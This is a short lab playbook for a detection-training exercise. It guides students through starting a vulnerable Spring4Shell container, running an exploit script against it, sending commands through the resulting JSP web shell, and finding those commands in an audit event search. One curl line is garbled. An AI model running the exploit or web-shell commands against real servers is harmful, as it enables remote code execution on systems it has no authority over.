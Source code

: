 Threat Stack Playbooks
======================

Spring4Shell Playbook
---------------------

First, Access the Linux Ubuntu 20.04 LTS Box via WebShell.

.. image:: _static/UbuntuWebshell.png
   :scale: 50%



Next, navigate to the /spring4shell/ directory found in root by entering the following command:


.. code-block::
   
   cd /spring4shell/
   
   
   
.. image:: _static/CDDirectoryCommand.png
   :scale: 50%



Next, to spin up the vulnerable Spring server, run the following command: 



.. code-block::

   docker run -p 80:8080 spring4shell
   
   
after you run the command, you should see the following screen.

.. image:: _static/Spring4ShellScreen.png


Go back to UDF and open another shell connection the linux host again. Then run the following command

.. code-block::
   
   curl localhost: curl localhost/helloworld/greeting
   
   
The following output should manifest.

.. image:: _static/CurlOutput.png


Now to exploit, run the following command in the spring4shell directory. Navigate to the spring4shell directory by running the following commands.

.. code-block::
   
   cd /spring4shell/
   python3 exploit.py --url 'http://localhost/helloworld/greeting'
   
The following output should manifest.

.. image:: _static/CurlOutput2.png
   
Now run the following command via shell


.. code-block::
   
   curl http://localhost/shell.jsp?cmd=pwd --output -
   
   
.. note::
   
   Run the --output flag as this is required for the output to display


then run:

.. code-block::

   touch yougotpwndStudentN.txt

If you navigate to event search and enter the following query and event search, you will see your command.

.. code-block::

   event_type = "audit" and command = "touch"


.. image:: _static/pwned2.gif

